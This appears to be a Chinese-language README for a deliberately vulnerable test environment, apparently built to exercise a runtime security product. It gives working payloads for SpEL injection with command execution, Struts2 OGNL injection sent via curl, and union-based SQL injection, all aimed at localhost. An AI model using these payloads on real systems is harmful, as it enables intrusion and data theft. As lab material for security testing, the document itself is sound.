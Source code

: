 # TongASDP漏洞测试环境

TongASDP漏洞测试环境包含了两个项目:`tongasdp-test-springboot`和`tongasdp-test-struts2`，它们使用了相同的源代码分别用于测试`SpringBoot`和`Struts2`漏洞。

## SpringBoot SpEL表达式注入

`tongasdp-test-springboot`使用的是`SpringBoot 1.3.0`，这个版本存在`SpEL表达式注入`漏洞，访问的控制器地址是`getUserById.do?id=1`，参数`id`存在`SpEL表达式注入`漏洞，发送如下`Payload`服务器会返回`SpEL表达式`的计算结果：
![](./images/1588767427746.jpg)

通过SpEL表达式可以执行系统命令，如:`http://localhost:8000/getUserById.do?id=${T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(105).concat(T(java.lang.Character).toString(100)))}`。

## Struts2 OGNL表达式注入

`tongasdp-test-struts2`使用的是`Struts2 2.1.8`版本存在`Struts2`命令执行漏洞，访问的`action`是`rasp.action`可以使用`Struts2`的`Payload`进行检测，例如发送如下`Payload`服务器会返回`[/ok]`:

```
redirect:${%23w%3d%23context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse').getWriter(),%23w.println('[/ok]'),%23w.flush(),%23w.close()}
```

如使用`curl`发送`Payload`：

```
curl -i http://localhost:8000/rasp.action -d "redirect:%24%7b%23w%3d%23context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse').getWriter(),%23w.println('[/ok]'),%23w.flush(),%23w.close()%7d"
```
或者使用浏览器访问(需要注意的是Tomcat8+不能使用URL传参):`http://localhost:8000/rasp.action?redirect:%24%7b%23w%3d%23context.get(%27com.opensymphony.xwork2.dispatcher.HttpServletResponse%27).getWriter(),%23w.println(%27[/ok]%27),%23w.flush(),%23w.close()%7d`

![](./images/1588764042020.jpg)

## SQL注入

几乎所有可以传参的地方都存在SQL注入，例如获取文章详情页中的`articleId`参数存在注入，如使用算数符获取ID为10000的文章(`articleId=100001-1`)：
![](./images/1588767982847.jpg)

注入数据库信息：
`http://localhost:8000/getArticle.do?articleId=100001%20and%201=2%20union%20select%201,2,user(),4,version(),null,7`
![](./images/1588820291794.jpg)

需要注意的是因为数据库查询的时候有一个字段是`private Date publishDate;`所以注入的时候需要注意数据字段类型，上述`union select`注入示例使用了`null`占位。

## 其他测试用例

`tongasdp-test-core`项目中的`com.github.tongasdp.controller`包下面包含了非常多的其他测试用例。